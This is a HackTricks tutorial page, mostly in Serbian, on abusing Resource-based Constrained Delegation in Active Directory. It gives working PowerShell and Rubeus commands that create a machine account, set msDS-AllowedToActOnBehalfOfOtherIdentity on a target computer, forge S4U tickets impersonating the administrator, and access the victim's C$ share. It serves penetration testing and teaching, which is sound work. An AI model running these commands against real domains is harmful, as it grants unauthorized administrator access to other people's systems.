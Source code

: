# Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Osnovi Resource-based Constrained Delegation

Ovo je slično osnovnoj [Constrained Delegation](constrained-delegation.md) ali **umesto** davanja dozvola **objektu** da **imituje bilo kog korisnika prema servisu**. Resource-based Constrained Delegation **postavlja** u **objektu ko može da imituje bilo kog korisnika prema njemu**.

U ovom slučaju, ograničeni objekat će imati atribut pod nazivom _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ sa imenom korisnika koji može da imituje bilo kog drugog korisnika prema njemu.

Još jedna važna razlika između ovog Constrained Delegation i drugih delegacija je da bilo koji korisnik sa **dozvolama za pisanje nad računom mašine** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) može postaviti _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (U drugim oblicima Delegacije potrebne su privilegije domen administratora).

### Novi koncepti

U Constrained Delegation je rečeno da je **`TrustedToAuthForDelegation`** oznaka unutar _userAccountControl_ vrednosti korisnika potrebna za izvođenje **S4U2Self.** Ali to nije potpuno tačno.\
Stvarnost je da čak i bez te vrednosti, možete izvesti **S4U2Self** protiv bilo kog korisnika ako ste **servis** (imate SPN) ali, ako imate **`TrustedToAuthForDelegation`** vraćeni TGS će biti **Forwardable** i ako **nemate** tu oznaku vraćeni TGS **neće** biti **Forwardable**.

Međutim, ako je **TGS** korišćen u **S4U2Proxy** **NISU Forwardable** pokušaj zloupotrebe **osnovne Constrain Delegation** neće **uspeti**. Ali ako pokušavate da iskoristite **Resource-Based constrain delegation, to će uspeti** (ovo nije ranjivost, to je funkcija, očigledno).

### Struktura napada

> Ako imate **dozvole za pisanje ekvivalentne privilegijama** nad **računom računara** možete dobiti **privilegovan pristup** na toj mašini.

Pretpostavimo da je napadač već **dobio dozvole za pisanje ekvivalentne privilegijama nad računarom žrtve**.

1. Napadač **kompromituje** nalog koji ima **SPN** ili **kreira jedan** (“Servis A”). Imajte na umu da **bilo koji** _Admin User_ bez bilo kojih drugih posebnih privilegija može **kreirati** do 10 **računarskih objekata (**_**MachineAccountQuota**_**)** i postaviti im **SPN**. Tako da napadač može jednostavno kreirati računar i postaviti SPN.
2. Napadač **zloupotrebljava svoje DOZVOLE ZA PISANJE** nad računarom žrtve (ServisB) da konfiguriše **resource-based constrained delegation da omogući Servisu A da imituje bilo kog korisnika** prema tom računaru žrtve (ServisB).
3. Napadač koristi Rubeus da izvede **potpun S4U napad** (S4U2Self i S4U2Proxy) od Servisa A do Servisa B za korisnika **sa privilegovanim pristupom Servisu B**.
1. S4U2Self (iz SPN kompromitovanog/kreativnog naloga): Zatraži **TGS od Administratora za mene** (Nije Forwardable).
2. S4U2Proxy: Koristi **ne Forwardable TGS** iz prethodnog koraka da zatraži **TGS** od **Administratora** za **računar žrtve**.
3. Čak i ako koristite ne Forwardable TGS, pošto zloupotrebljavate Resource-based constrained delegation, to će uspeti.
4. Napadač može **proći kroz tiket** i **imitirati** korisnika da dobije **pristup žrtvi Servisu B**.

Da biste proverili _**MachineAccountQuota**_ domena možete koristiti:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Napad

### Kreiranje objekta računara

Možete kreirati objekat računara unutar domena koristeći [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Konfigurisanje R**esource-based Constrained Delegation**

**Korišćenje activedirectory PowerShell modula**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Korišćenje powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Извођење потпуног S4U напада

Прво, креирали смо нови објекат Рачунар са лозинком `123456`, тако да нам је потребан хеш те лозинке:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Ovo će odštampati RC4 i AES heš vrednosti za taj nalog.\
Sada se napad može izvršiti:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Možete generisati više karata jednostavno tražeći jednom koristeći `/altservice` parametar Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Napomena da korisnici imaju atribut pod nazivom "**Ne može biti delegiran**". Ako korisnik ima ovaj atribut postavljen na True, nećete moći da se pretvarate da je on. Ova svojstvo se može videti unutar bloodhound.
{% endhint %}

### Pristupanje

Poslednja komanda će izvršiti **potpun S4U napad i injektovaće TGS** od Administratora na žrtvovanu mašinu u **memoriji**.\
U ovom primeru je zatražen TGS za **CIFS** servis od Administratora, tako da ćete moći da pristupite **C$**:
```bash
ls \\victim.domain.local\C$
```
### Zloupotreba različitih servisnih karata

Saznajte više o [**dostupnim servisnim kartama ovde**](silver-ticket.md#available-services).

## Kerberos greške

* **`KDC_ERR_ETYPE_NOTSUPP`**: Ovo znači da je kerberos konfigurisan da ne koristi DES ili RC4 i da pružate samo RC4 hash. Pružite Rubeusu barem AES256 hash (ili jednostavno pružite rc4, aes128 i aes256 hash). Primer: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Ovo znači da je vreme trenutnog računara različito od vremena DC-a i kerberos ne funkcioniše ispravno.
* **`preauth_failed`**: Ovo znači da dati korisničko ime + hash ne funkcionišu za prijavu. Možda ste zaboravili da stavite "$" unutar korisničkog imena prilikom generisanja hash-eva (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Ovo može značiti:
* Korisnik kojeg pokušavate da imitira ne može da pristupi željenoj usluzi (jer ne možete da ga imitira ili zato što nema dovoljno privilegija)
* Tražena usluga ne postoji (ako tražite kartu za winrm, ali winrm ne radi)
* Lažni računar koji je kreiran je izgubio svoje privilegije nad ranjivim serverom i morate ih ponovo dodeliti.

## Reference

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Saznajte i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Saznajte i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
